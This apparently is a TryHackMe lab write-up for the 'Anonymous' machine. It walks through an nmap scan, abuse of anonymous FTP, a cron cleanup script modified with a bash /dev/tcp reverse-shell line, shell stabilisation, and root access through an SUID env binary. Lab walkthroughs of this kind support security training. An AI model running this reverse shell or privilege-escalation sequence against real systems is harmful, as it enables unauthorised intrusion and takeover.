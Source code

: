 ```yaml
---
date: 2020-05-24 15:48:48
layout: post
title: "Anonymous"
subtitle:
description: Medium rated machine from Tryhackme
image: /writeup/assets/img/anonymous/anonymous.png
optimized_image:
category: Tryhackme
tags: tryhackme ftp
author: cirius
paginate: false
---
```

<a href="https://tryhackme.com/room/anonymous">Link</a> to the the Machine on tryhackme. 
Starting with the nmap scan
```bash
nmap -T4 -p- -A 10.10.73.153
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-24 20:18 IST
Nmap scan report for 10.10.135.212
Host is up (0.23s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 2s, median: 0s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2020-05-24T14:49:01+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-24T14:49:00
|_  start_date: N/A

TRACEROUTE (using port 139/tcp)
HOP RTT       ADDRESS
1   375.13 ms 10.9.0.1
2   373.50 ms 10.10.73.153

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.89 seconds
```

Found 4 open ports.
My first approach was to check for anonymous login on ftp and yes the anonymous login was allowed.

Inside the ftp server, a directory named scripts was present. The directory contained 3 files named **clean.sh , removed_files.log , to_do.txt.
I downloaded all files. The to_do.txt listed
```text
I really need to disable the anonymous login...it's really not safe
```
The clean.sh contents
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

and the removed_files.log conatained,
```text
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

So the clean.sh was running at some interval of time and then writing the removed_files.log

I added my command to get a reverse shell, next time the script executes.
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
        bash -i >& /dev/tcp/10.9.12.192/8888 0>&1 
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
Made the permission of the local clean.sh same as on the ftp server
```bash
chmod 757 clean.sh
```
Uploaded it to the ftp server and then started listening for the connection.

After a while, got the reverse shell.
![placeholder](/writeup/assets/img/anonymous/shell.png "shell")
Made shell better by these commands.
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
#Then
export TERM=xterm
#Then press ctrl+z
#type
stty raw -echo
#then
fg
#then press Enter two times.
#This makes shell with most functions as ssh shell.
```

Got the user flag

Looking for any interesting SUID binary,
```bash
find / -perm -u=s -type f 2>/dev/null
```
I found **env** binary as SUID.

Executed this command as given by GTFObins
```bash
env /bin/sh -p 
```
This gave me the root shell.
 
 Got the root flag.
